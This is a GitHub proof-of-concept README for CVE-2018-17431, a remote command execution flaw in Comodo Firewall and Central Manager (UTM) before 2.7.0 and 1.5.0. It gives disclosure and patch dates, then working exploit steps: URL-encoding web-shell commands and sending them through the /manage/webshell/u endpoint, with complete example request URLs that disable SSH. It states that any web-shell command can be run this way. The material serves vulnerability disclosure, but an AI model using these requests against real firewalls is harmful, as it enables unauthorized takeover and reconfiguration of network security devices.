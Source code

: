## CVE-2018-17431-PoC
Proof of consept for CVE-2018-17431

### Exploit Title: Comodo Firewall & Central Manager (UTM) All Release before 2.7.0 & 1.5.0 Remote Command Execution (Web Shell based)
### Exploit Author: Milad Fadavvi
### Vendor Homepage: https://www.comodo.com/
### Software Link: https://secure.comodo.com/home/purchase.php?pid=106&license=try&track=9276&af=9276
### Version: before 2.7.0 & 1.5.0
### Tested on: Windows:firefox/chrome - Kali:firefox
### Discovery Date: 2018-08-15 (reported in sameday)
### Confirmation than bug exist: 2018-09-22 ([Ticket ID: XWR-503-79437](https://github.com/Fadavvi/CVE-2018-17431-PoC/blob/master/Comodo-Confirmarion.png))
### Patch released: 2018-11-23 [Release Notes from Comodo](https://github.com/Fadavvi/CVE-2018-17431-PoC/raw/master/DomeFW2.7.0.ReleaseNote.pdf)

Exploit:

1. WebShell simulation:

        For example disable SSH in web shell is like this:
            - service [hit enter]
            - ssh [hit enter]
            - disable [hit enter]

2. Encode
        
        make above sequense encode with URL ECODING
        (I used burp encoder plugin)

        %73%65%72%76%69%63%65%0a%73%73%68%0a%64%69%73%61%62%6c%65%0a

3. Run 

        Base URL: https://[Comodo_Firewall_IP]:[WebPort]/manage/webshell/u?s=[Integer]&w=100&h=24&k=[Encoded_Command]&l=[Integer]&_=1534440840152
        
        
                  https://[Comodo_Firewall_IP]:[WebPort]/manage/webshell/u?s=[Integer]&w=100&h=24&k=%0a&l=[Integer]&_=1534440840152 (extra enter key for run the command)
                  

        Example: https://192.168.250.10:10443/manage/webshell/u?s=4&w=100&h=24&k=%73%65%72%76%69%63%65%0a%73%73%68%0a%64%69%73%61%62%6c%65%0a&l=21&_=1534440840152
        
              https://192.168.250.10:10443/manage/webshell/u?s=4&w=100&h=24&k=%0a&l=21&_=1534440840152


A page with **"Configuration has been altered"** message will show up and configuration changed!



### With this technic, we can simulate all WebShell Commands.
